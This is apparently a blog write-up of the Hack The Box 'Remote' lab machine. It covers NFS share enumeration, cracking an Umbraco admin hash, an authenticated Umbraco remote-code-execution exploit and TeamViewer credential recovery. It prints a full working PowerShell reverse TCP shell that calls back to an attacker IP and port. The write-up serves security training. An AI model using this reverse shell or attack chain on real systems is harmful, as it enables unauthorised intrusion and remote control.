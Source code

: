 ```yaml
---
layout: single
title: Remote - Hack The Box
excerpt: "Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator."
date: 2022-09-05
classes: wide
header:
  teaser: /assets/images/htb-writeup-remote/remote_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - nfs
  - umbraco
  - teamviewer
  - metasploit
---
```


![](/assets/images/htb-writeup-remote/remote_logo.png)

Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator.

## Summary

- Find open NFS share and locate Umbraco credentials inside the SDF file
- Use Umbraco exploit with the admin credentials to get a shell
- Find TeamViewer's credentials using Metasploit
- Log in as administrator with the password from TeamViewer

## Portscan

```
root@kali:~/htb/remote# nmap -sC -sV -p- 10.10.10.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-21 19:41 EDT
Nmap scan report for remote.htb (10.10.10.180)
Host is up (0.063s latency).
Not shown: 65518 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
[...]
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
[...]
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Using crackmapexec, we can identity the OS and the domain name.

```
root@kali:~/htb/remote# cme smb 10.10.10.180
SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
```

## Unsuccessful recon

- FTP site allows anonymous connections but doesn't contain anything
- Null sessions are not allowed on the box (can't enumerate users or shares)

## Website

The site is just some company's website and doesn't have anything interesting.

![](/assets/images/htb-writeup-remote/webpage.png)

We can see from the various left around the page and html source code that it's running the Umbraco CMS.

![](/assets/images/htb-writeup-remote/umbraco.png)

We can access the login page at `http://remote.htb/umbraco/` but we don't have any credentials yet.

![](/assets/images/htb-writeup-remote/adminpage.png)

## NFS mount

Using `showmount` we can check which NFS shares are accessible. Here we can see that `site_backups` is accessible by anyone.

```
root@kali:~# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

We can mount the NFS share to our `/mnt` directory and examine the files contained within.

```
root@kali:~# mount -t nfs 10.10.10.180:site_backups /mnt
root@kali:~# ls -l /mnt
total 115
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------ 2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
drwx------ 2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------ 1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

## Locating the umbraco admin password

I expected the password to be inside `Web.config` or some other plaintext configuration file but I did not find any credentials there. However when I looked at the `Umbraco.sdf` file in the `/mnt/App_Data` folder I saw that it contains some hashed passwords.

![](/assets/images/htb-writeup-remote/sdf.png)

The administrator's SHA-1 hash looks interesting: `b8be16afba8c314ad33d812f22a04991b90e2aaa`

It's easily cracked with john: `baconandcheese`

![](/assets/images/htb-writeup-remote/bacon.png)

Now we can log in to the Umbraco page:

![](/assets/images/htb-writeup-remote/umbracoadmin.png)

## Getting a shell with umbraco exploit

A quick search on Exploit-DB shows there's an authenticated exploit for Umbraco version 7.12.4, which is the exact version running on the box.

![](/assets/images/htb-writeup-remote/searchsploit.png)

![](/assets/images/htb-writeup-remote/version.png)

Here's the modified exploit with the proper credentials and the payload using powershell.exe to reach out to our python webserver and download a powershell payload.

![](/assets/images/htb-writeup-remote/payload1.png)

The payload is a standard Nishang reverse TCP shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

After using the expoit, we can get a shell.

![](/assets/images/htb-writeup-remote/user.png)

## Privesc

I noticed that the TeamViewer service is running on the server.

![](/assets/images/htb-writeup-remote/teamviewer_directory.png)

![](/assets/images/htb-writeup-remote/teamviewer_service.png)

We can find the TeamViewer credentials by using the Metasploit module.

![](/assets/images/htb-writeup-remote/teamviewer.png)

Then we can log in to the box as administrator using WinRM.

![](/assets/images/htb-writeup-remote/root.png)